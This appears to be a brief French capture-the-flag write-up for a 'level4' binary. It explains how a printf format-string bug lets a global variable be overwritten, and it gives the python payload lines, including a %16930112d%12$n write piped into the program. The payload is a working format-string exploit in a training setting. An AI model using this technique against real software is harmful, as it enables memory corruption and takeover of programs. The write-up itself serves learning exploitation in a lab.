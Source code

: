 Meme chose que le flag3

on voit un programme qui a la fonction N et P
le main call uniquement N qui a un fgets ce qui empeche les buffer overflow attack
la fontion P a un printf donc on va faire comme le level3
on va encore une fois recuperer l'adresse de la variable M avec print &m et on a son adresse : 0x8049810 et juste apres il est compare avec $0x1025544
comme le level3 on va essayer de print notre adresse

python -c 'print "CCCC %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/test

notre adresse est a la 12 eme position donc comme le level3 on met l'adresse de la variable m : \x10\x98\x04\x08

16930112d c'est le nombre a l'adresse 0x1025544 ce qui donne 16930116 en decimal il faut donc qu'on ecrive cette valeur en enlevent 4 car l'adresse fait 4 bytes

python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test2

cat /tmp/test2 | ./level4